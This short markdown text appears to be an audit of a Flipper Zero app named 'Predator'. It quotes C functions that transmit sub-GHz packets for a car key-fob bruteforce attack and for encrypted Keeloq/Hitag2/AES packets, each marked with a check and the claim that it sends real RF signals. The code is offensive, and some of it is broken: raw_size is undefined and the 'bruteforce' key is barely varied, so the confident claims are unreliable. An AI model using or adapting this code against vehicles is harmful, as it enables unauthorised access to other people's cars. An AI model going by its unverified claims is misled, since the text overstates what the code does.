 
### **Line 1187-1204**: Bruteforce Attack
```c
void predator_subghz_send_car_bruteforce(PredatorApp* app, uint32_t frequency) {
    FURI_LOG_I("PredatorSubGHz", "REAL TRANSMISSION: Car bruteforce attack on %lu Hz", frequency);
    
    if(predator_subghz_start_car_bruteforce(app, frequency)) {
        uint32_t bruteforce_key = 0x12345678 + (furi_get_tick() & 0xFF);
        predator_subghz_send_car_key(app, bruteforce_key);  // ← REAL RF HERE
        app->packets_sent++;
    }
}
```
**Status**: ✅ Transmits real RF signals

---

### **Line 202-232**: Actual Hardware Transmission
```c
void predator_subghz_send_car_key(PredatorApp* app, uint32_t key_code) {
    FURI_LOG_I("PredatorSubGHz", "[REAL HW] Transmitting car key code: %08lX", key_code);
    
    // Create raw data buffer for transmission
    uint8_t raw_data[32];
    raw_data[0] = 0xAA; // Preamble
    raw_data[1] = 0x55;
    raw_data[2] = 0xCC; // Sync word
    raw_data[3] = (key_code >> 24) & 0xFF;  // Key bytes
    raw_data[4] = (key_code >> 16) & 0xFF;
    raw_data[5] = (key_code >> 8) & 0xFF;
    raw_data[6] = key_code & 0xFF;
    
    // REAL RF TRANSMISSION - NOT JUST LOGGING!
    furi_hal_subghz_write_packet(raw_data, raw_size);  // ← HARDWARE API
    
    furi_delay_ms(100);  // Wait for transmission
    
    // Visual feedback
    notification_message(app->notifications, &sequence_blink_green_100);
}
```
**Status**: ✅ Uses Flipper Zero hardware SubGHz API (`furi_hal_subghz_write_packet`)

---

### **Line 1230-1249**: Crypto Engine Integration
```c
bool predator_subghz_send_raw_packet(PredatorApp* app, uint8_t* packet, size_t len) {
    FURI_LOG_D("PredatorSubGHz", "[CRYPTO TX] Sending %u-byte encrypted packet", len);
    
    // REAL TRANSMISSION of encrypted Keeloq/Hitag2/AES packets
    furi_hal_subghz_write_packet(packet, len);  // ← HARDWARE API
    
    return true;
}
```
**Status**: ✅ Transmits encrypted packets from crypto engine

---